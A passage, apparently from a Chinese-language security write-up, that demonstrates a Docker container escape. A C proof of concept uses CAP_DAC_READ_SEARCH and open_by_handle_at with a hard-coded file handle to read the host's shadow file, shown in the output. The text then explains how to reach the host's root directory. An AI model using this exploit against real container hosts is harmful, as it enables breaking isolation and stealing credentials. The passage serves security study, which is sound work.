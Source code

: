 ```c
	exit(errno);
}

int main(){
	char read_buf[0x1000];
	struct file_handle *fhp;
	int handle_bytes = 8;
	char f_handle[8] = {0x25, 0x18, 0x01, 0x00, 0xc6, 0xfd, 0xc8,0x4d};
	int fd_hosts,fd_host_shadow;
	fhp = malloc(sizeof(struct file_handle) + handle_bytes);
	fhp->handle_bytes = handle_bytes;
	fhp->handle_type = 1;
	memcpy(fhp->f_handle,f_handle,8);
	if ((fd_hosts = open("/etc/hosts", O_RDONLY)) < 0)
		die("[-] open");
	fd_host_shadow = open_by_handle_at(fd_hosts, fhp, O_RDONLY);
	if(fd_host_shadow < 0){
		die("[-] open host shadow");
	}
	memset(read_buf,0,sizeof(read_buf));
	if (read(fd_host_shadow, read_buf, sizeof(read_buf) - 1) < 0)
		die("[-] read");
	printf("fd_host_shadow file content is \n%s ",read_buf);

}
```

执行结果如下：

```
$ docker run -it --cap-add CAP_DAC_READ_SEARCH ubuntu /bin/sh
$ ./poc
fd_host_shadow file content is
root:*:18575:0:99999:7:::
daemon:*:18575:0:99999:7:::
bin:*:18575:0:99999:7:::
sys:*:18575:0:99999:7:::
sync:*:18575:0:99999:7:::
games:*:18575:0:99999:7:::
man:*:18575:0:99999:7:::
lp:*:18575:0:99999:7:::
mail:*:18575:0:99999:7:::
news:*:18575:0:99999:7:::
uucp:*:18575:0:99999:7:
...
```

根据上面的poc可以知道，在docker中，如果拥有`CAP_DAC_READ_SEARCH`权限，并且知道宿主机上文件的`file_handle`的`f_handle`成员（`inodeid`+4个未知字节），即能获取到宿主机的文件。

而在宿主机中，根目录 `/`的inodeid一般为2，剩下的4个字节为0。即根目录 `/` 的`f_handle`为`02 00 00 00 00 00 00 00`，根据这个信息，我们就可以直接在docker中，使用`open_by_handle_at `获取系统根目录的文件描述符。
